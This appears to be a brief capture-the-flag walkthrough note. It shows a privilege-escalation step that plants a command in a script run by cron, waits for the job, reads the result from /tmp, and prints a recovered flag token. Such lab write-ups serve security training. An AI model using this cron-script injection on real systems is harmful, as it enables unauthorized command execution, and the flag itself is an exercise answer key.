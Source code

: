 echo "getflag > /tmp/toto" > opt/openarenaserver/toto.sh

wait for cron to exec

cat /tmp/toto

viuaaale9huek52boumoomioc
